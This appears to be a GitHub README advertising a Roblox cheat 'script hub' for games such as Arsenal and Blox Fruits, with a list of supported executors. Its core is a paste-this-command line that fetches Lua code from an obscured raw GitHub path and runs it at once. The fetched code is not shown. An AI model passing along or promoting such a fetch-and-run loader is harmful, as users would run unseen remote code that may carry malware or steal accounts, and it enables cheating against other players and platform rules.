 # Welcome to the new generation of scripting.
Our specially designed hub is a very great script hub that allows for easy, simple, and fun exploting on the Roblox platform.

## How can I use this script?
Use the loadstring below and enter it in any executor.

***loadstring(game:HttpGet("https://raw.githubusercontent.com/huliovonvonthe3rd/sp4ybbCtrBJjHzg17j6hm16z3huNP4/main/8e1MEaW1sT974D7/loader.lua",true))***

## What are the current supported games for this hub?
Our current releases are:
- Arsenal
- Blox Fruits
- Pet Simulator X
- & more coming soon

## What executors are supported with this hub?
- Synapse X
- ScriptWare *(pref. Windows)*
- KRNL
- Fluxus *(with issues)*
- & more probably, expect issues.
